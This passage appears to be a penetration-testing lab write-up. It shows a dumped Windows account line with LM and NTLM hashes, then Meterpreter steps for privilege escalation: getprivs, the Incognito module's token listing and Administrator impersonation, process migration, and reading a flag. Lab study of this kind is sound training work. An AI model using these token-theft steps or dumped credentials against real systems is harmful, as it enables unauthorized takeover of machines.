 admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
**Username**
- admin
**RID (Relative ID)**
- 1012
**LM Hash**
- aad3b435b51404eeaad3b435b51404ee
**NTLM Hash**
- 4d6583ed4cef81c2f2ac3c88fc5f3da6

### 2.2. Privilege Escalation: Impersonate

**Objective**: Escalate the privilege on a Windows machine.

In this lab, we will learn about the process of impersonating access tokens on Windows with Meterpreter's in-built Incognito module.

```shell
# ! Use the  MSF Rejetto module to gain access to the system.

cat C:\\Users\\Administrator\\Desktop\\flag.txt
# stdapi_fs_stat: Operation failed: Access is denied.
```

The **getprivs** command is used to enumerate (list) all the privileges that the current user account possesses on the target system. Certain privileges (like **SeImpersonatePrivilege** or **SeDebugPrivilege**) are particularly useful for privilege escalation attacks.

```shell
getprivs
# SeImpersonatePrivilege. This means that we can use this Meterpreter session to impersonate other available access tokens.
```

The **Incognito module in Metasploit** is a powerful post-exploitation tool used primarily for token manipulation. It allows attackers to list, impersonate, and steal access tokens from other users, especially high-privilege accounts like Administrator or SYSTEM.

```shell
# We are going to use the 'incognito' module.
load incognito 
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"

pgrep explorer
migrate <process_ID>

getuid
getprivs

# Now read the flag
cat C:\\Users\\Administrator\\Desktop\\flag.txt
```

<br>
